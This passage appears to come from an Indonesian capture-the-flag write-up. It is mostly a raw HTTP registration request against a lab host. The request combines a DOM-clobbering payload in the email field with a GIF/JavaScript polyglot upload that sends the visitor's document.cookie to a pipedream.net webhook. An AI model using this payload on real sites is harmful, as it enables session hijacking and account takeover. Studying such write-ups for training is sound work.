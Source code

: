 ```http
POST /xss2/ HTTP/1.1
Host: 172.174.108.207
Content-Length: 852
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.174.108.207
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvx7RraDqCv5SCGof
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.174.108.207/xss2/
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=b434ce1020e25c6b6b6d0ff6567a22f5
Connection: close

------WebKitFormBoundaryvx7RraDqCv5SCGof
Content-Disposition: form-data; name="username"

cid7
------WebKitFormBoundaryvx7RraDqCv5SCGof
Content-Disposition: form-data; name="email"

"<a/id='GIF89a'><a/id=user><a/id='user'/name='isAdmin'/href=''>"@cid.com
------WebKitFormBoundaryvx7RraDqCv5SCGof
Content-Disposition: form-data; name="password"

asd
------WebKitFormBoundaryvx7RraDqCv5SCGof
Content-Disposition: form-data; name="confirm-password"

asd
------WebKitFormBoundaryvx7RraDqCv5SCGof
Content-Disposition: form-data; name="fileToUpload"; filename=".jpg"
Content-Type: image/jpeg

GIF89a
window.location='https://eogki39eznqmcza.m.pipedream.net?c='+document.cookie;
------WebKitFormBoundaryvx7RraDqCv5SCGof
Content-Disposition: form-data; name="register-submit"

Register Now
------WebKitFormBoundaryvx7RraDqCv5SCGof--
```

Setelah kita melakukan request tersebut, dan memberikan url dari akun kita ke admin, kita akan mendapatkan flag di webhook seperti berikut.

![](https://i.imgur.com/He4S8Sw.png)
